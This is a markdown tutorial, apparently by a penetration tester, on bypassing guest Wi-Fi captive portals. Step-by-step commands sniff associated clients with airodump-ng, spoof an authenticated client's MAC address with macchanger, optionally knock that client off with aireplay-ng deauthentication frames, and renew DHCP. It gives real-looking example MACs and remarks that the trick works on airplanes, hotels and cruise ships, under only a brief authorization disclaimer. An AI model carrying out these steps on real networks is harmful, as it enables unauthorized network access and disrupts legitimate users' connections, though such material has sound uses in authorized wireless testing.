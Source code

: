 # Bypassing Wireless Captive Portals

Ocassionally, on client projects I come across Guest Wireless Networks that require a login once connected to an AP of the Guest Network for further network/Internet access. In many cases this can be bypassed by spoofing the MAC address of a client that has already connected and authenticated to an AP.  The reason this works is that an authenticated user’s MAC is given an IP that is allowed on the network, so when spoofing a MAC address, there is no need to authenticate as the MAC address is already allowed on the network. The steps below can be used to obtain a MAC address, spoof it and reconnect to an AP bypassing the captive portal login.

**disclaimer**

In addition to client sites, this also works on airplanes, hotels and cruise ships, so please use your powers for good and only perform actions on networks in which you have authorization. 

## Requirements
1.	MAC Changer
*	sudo apt install macchanger
2.	Aircrack-ng
* sudo apt install aircrack-ng

## Bypass Steps
In the examples below I had 2 wireless interfaces: a built in wireless card (wlx8416f907e91f) and a USB wireless card (wlan0).

1.	See what MACs are associated to the AP
* sudo airodump-ng <interface> --ivs
*	sudo airodump-ng wlx8416f907e91f –ivs
 
From the above we can see A0:3D:6F8B:5D:A0 is the BSSID of an AP (MAC address) of the target Guest Wifi and 70:70:0D:72:2C:3C is a client associated and hopefully authenticated with the AP.
2.	Bring the interface down in preparation to spoof the MAC address
* sudo ifconfig <interface> down
* sudo ifconfig wlan0 down
3.	Spoof the MAC address
* sudo macchanger --mac <MAC to spoof> <interface>
* sudo macchanger --mac 70:70:0D:72:2C:3C wlan0
4.	Bring interface back up
*	sudo ifconfig <interface> up
*	sudo ifconfig wlan0 up
5.	Deauth client, hoping to move them to a different AP so there is not a conflict. **This step is optional.
*	sudo aireplay-ng -0 1 -a <BSSID> -c <client MAC> <interface>
*	sudo aireplay-ng -0 1 -a A0:3D:6F8B:5D:A0 -c 70:70:0D:72:2C:3C wlan0
6.	Connect the interface to the target SSID as normal.
7.	Release and renew your IP address now with the spoofed MAC.
*	sudo dhclient -r && sudo dhclient -v <interface>
*	sudo dhclient -r && sudo dhclient -v wlan0
8.	Profit

